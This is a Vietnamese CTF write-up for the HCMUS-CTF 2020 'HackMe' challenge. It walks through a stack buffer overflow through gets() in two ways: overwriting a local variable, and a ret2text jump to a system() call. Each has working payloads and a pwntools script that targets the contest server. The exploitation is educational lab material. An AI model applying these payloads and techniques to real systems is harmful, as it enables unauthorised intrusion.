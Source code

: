 # [HCMUS-CTF 2020](https://ctf.hcmus.edu.vn/)

## ⚡ [HackMe](https://ctf.hcmus.edu.vn/challenges#HackMe)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/100-pts-brightgreen.svg)](https://img.shields.io/badge/100-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `bof` | `stack` `variable` | `ret2text`

<!--
### Challenge Description
-->

### Summary

Đây vẫn là challenge về buffer overflow. 

Tham khảo hướng dẫn giải chi tiết về dạng đề này thông qua [SimpleBOF](../SimpleBOF/README.md) challenge.


Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec hackme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta kiểm tra hàm **main**:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _x86_get_pc_thunk_ax();
  setup();
  check_authentication();
  return 0;
}
```
Chỉ duy nhất lời gọi tới hàm **check_authentication** tại đây.

```cpp
int check_authentication()
{
  char s; // [sp+0h] [bp-28h]@1

  puts("============== HCMUS-CTF WELCOME =============");
  puts("[+] Username: ");
  gets(&s);
  if ( !strcmp(&s, "Only-C") )
    check_password();
  return 0;
}
```
Hàm này kiểm tra người dùng nhập vào username, nếu bằng "Only-C" thì tiếp tục kiểm tra mật khẩu qua hàm **check_password**.

```cpp
int check_password()
{
  char s; // [sp+8h] [bp-20h]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = -1430532899;
  puts("[+] Password: ");
  gets(&s);
  if ( !strcmp(&s, "LoveM-TP") )
    puts("******** Access Granted ********");
  if ( v2 == -17885688 )
  {
    puts("You got the secret");
    system("/bin/cat flag.txt");
    exit(0);
  }
  return 0;
}
```

Ta thấy flag được in ra ở câu lệnh `system("/bin/cat flag.txt")`, tuy nhiên biểu thức điều kiện ở trước nó lại tự không thỏa mãn, và ta cũng không được phép chỉnh sửa biến `v2`. 




Trên thực tế, ta có thể lợi dụng lỗ hổng của hàm `gets` (không giới hạn số kí tự nhập) khi đọc password để ghi đè lên vùng nhớ của biến v2, hoặc tiếp tục ghi đè lên vùng nhớ của địa chỉ trả về của hàm **check_password** để chuyển địa chỉ lệnh trực tiếp vào trong biểu thức điều kiện để lấy được flag.

Ta sẽ chạy cả 2 cách trên tại đây!

### Exploit #1 Local variable

- Xây dựng payload

    Dựa vào đoạn mã ở trên, ta tính offset từ biến `s` (tại đỉnh stack) đến biến `v2` như sau:
    ```python
    offset = [sp+1Ch] - [sp+8h]  = 0x14 = 20
    ```

    Giá trị mới của **v2** sẽ là -17885688 chuyển qua biểu diễn ở hệ hexa:
    ```python
    >>> hex(-17885688 & (2**32-1))
    '0xfeef1608'
    >>> p32(0xfeef1608)
    b'\x08\x16\xef\xfe'
    ```

    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + v2`

    ```python
    payload = "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"
    ```

- Local exploit
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*20 + "\x08\x16\xef\xfe"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    You got the secret
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

### Exploit #2 Funtion argument

Chi tiết về phương pháp này sẽ được trình bày ở [ChampionLeague]("../ChampionLeague/README.md") challenge.

- Tìm vị trí địa chỉ trả về của hàm **check_password**
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "BBBB"' | strace ./hackme
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```

    Như vậy, ta cần có **36** bytes offset.




- Lấy địa chỉ gọi câu lệnh system call thông qua `gdb`:

    ```peda
    gdb-peda$ disass check_password
    Dump of assembler code for function check_password:
    ...
    0x080486c2 <+132>:   lea    eax,[ebx-0x17cc]
    0x080486c8 <+138>:   push   eax
    --> 0x080486c9 <+139>:   call   0x8048420 <system@plt>
    0x080486ce <+144>:   add    esp,0x10
    ...
    ```

    Kết quả: **`0x080486c9`**

- Lấy địa chỉ của chuỗi `bin/cat flag.txt`:
    
    ```bash
    $ ROPgadget --binary hackme --string '/bin/cat flag.txt'
    Strings information
    ============================================================
    0x08048834 : /bin/cat flag.txt
    ```
    Ta biết trong binary có chuỗi này vì đã dễ dàng nhìn thấy nó ở **IDA**, và sẽ dùng địa chỉ này như 1 tham số để truyền vào hàm `system`.

    Kết quả: **`0x08048834`**

- Local exploit
    
    Cấu trúc payload: `payload = Username + NewLine + "A" * offset + system_addr + arg1`

    ```python
    payload = "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + "\x34\x88\x04\x08"
    ```

    Kết quả:
    
    ```bash
    $ python -c 'print "Only-C\n" + "A"*36 + "\xc9\x86\x04\x08" + \
    > "\x34\x88\x04\x08"' | ./hackme
    ============== HCMUS-CTF WELCOME =============
    [+] Username:
    [+] Password:
    /bin/cat: flag.txt: No such file or directory
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *

p = remote("159.65.13.76", 63002)
#p = process("./hackme")

print(p.recvuntil("Username:"))

# This for exploit #1
v2 = 0xfeef1608
payload1 = 'Only-C\n' + 'A'*20 + p32(v2)

# This for exploit #2
syscall_addr = 0x080486c9
bincat_addr = 0x08048834

payload2 = 'Only-C\n' + 'A'*36 + p32(syscall_addr) + p32(bincat_addr)


# default payload1
payload = payload1

p.sendline(payload)
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**
